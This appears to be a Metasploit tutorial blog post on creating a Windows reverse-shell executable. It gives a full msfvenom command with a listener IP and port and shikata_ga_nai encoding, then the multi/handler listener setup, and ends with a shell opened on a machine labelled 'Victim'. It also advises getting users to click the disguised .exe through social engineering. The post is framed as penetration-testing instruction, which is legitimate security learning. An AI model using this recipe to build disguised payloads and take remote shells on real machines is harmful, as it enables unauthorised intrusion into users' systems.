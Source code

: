 ```yaml
---
draft: false
title: MSF Binary Payloads
linkTitle: MSF Binary Payloads
translationKey: msf-binary-payloads
weight: 220
date: 2017-05-20T13:10:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework provides many modules for creating malicious codes. In this article, we will create a payload that opens a Windows reverse shell.
url: /tr/msf-binary-payloads/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## Client-Sided Attacks

Client-side attacks are the type of attacks that all network administrators should be careful about. No matter how much you secure your system, client-side attacks exploit your users' vulnerabilities.

When pentesters somehow get the user on the system to click on a link or run malware, they open a door to the target system for themselves. For this reason, client-side attacks require interaction with the user. Such attacks also require social engineering efforts.

Metasploit Framework provides many modules for creating such malicious codes.

## binary payloads

Executable files called binary payloads look like harmless .exe files, but they are actually files that contain dangerous codes. The user who will receive the file is made to click on it by making it feel like it is an important file, and the malicious code runs.

In this article, the `msfvenom` command line tool provided by Metasploit Framework will be used. Using `msfvenom` you can obtain `.exe`, `perl` or `c` program outputs. The `.exe` format will be used here.

## Creating a Payload that Opens Windows Reverse Shell

We will use the `windows/shell/reverse_tcp` module to create a payload for the target user to connect to the listening IP address when the malicious program is run. First, let's look at what variables this module needs to work.

```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options for **payload/windows/shell/reverse_tcp:
 Name: Windows Command Shell, Reverse TCP Stager
 Module: payload/windows/shell/reverse_tcp
 Platform: Windows
 Arch: x86
Needs Admin: No
 Total size: 281
 Rank: Normal

Provided by:
 spoonm
 page
 hdm
 skape

Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address
LPORT 4444 yes The listening port

Description:
 Spawn a piped command shell (staged). Connect back to the attacker
```

This module requires the `LHOST` and `LPORT` variables to be set, as seen in the output. The target platform is x86 architecture and Windows operating system. We need to use an encoder for the payload we will create. For this, we will use the `x86/shikata_ga_nai` encoder module. Under these conditions, the following command will create a file named `1.exe` in the `/tmp` folder using the encoder.

```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=172.16.104.130 LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```

Let's check the type of our `1.exe` file. In the check we made with the `file` command, it is seen below that the `1.exe` file is an MS Windows file.

```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable (GUI) Intel 80386, for **MS Windows
```

## Listening Settings

We now have the `1.exe` file that the client will click and run. Now, we need to run a module that will listen when the click is performed. For this, we will use the `exploit/multi/handler` module and the `payload windows/shell/reverse_tcp` listener payload in it.

First, let's load the `exploit/multi/handler` module and look at the options.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options:

 Name Current Setting Required Description
 ---- --------------- -------- -----------
Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```

As you can see, there are no mandatory variables in the exploit module. Now let's set the payload.

```bash
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > show options

Module options:

 Name Current Setting Required Description
 ---- --------------- -------- -----------
Payload options (windows/shell/reverse_tcp):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 EXITFUNC thread yes Exit technique: seh, thread, process
 LHOST yes The local address
 LPORT 4444 yes The local port
Exploit target:

 Id Name
 -- ----
 0 Wildcard Target
```

This output shows that `LHOST` and `LPORT` values ​​must be entered for Payload.

`LHOST`: Local Host, i.e. the IP address that will listen locally,

`LPORT`: Local Port, i.e. the Port number that will listen.

Make sure that these values ​​are the same as the values ​​we entered for the `1.exe` file that we created with the `msfvenom` command. The malware will want to communicate according to the values ​​embedded in the `1.exe` file.

```bash
msf exploit(handler) > set LHOST 172.16.104.130
LHOST => 172.16.104.130
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) >
```

After making all the settings, the module is run with the `exploit` command and listening is started. Below is the command line that opens as a result of a client click as a result of listening.

```bash
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (474 ​​bytes)
> Command shell session 2 opened (172.16.104.130:31337 -> 172.16.104.128:1150)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents>
```
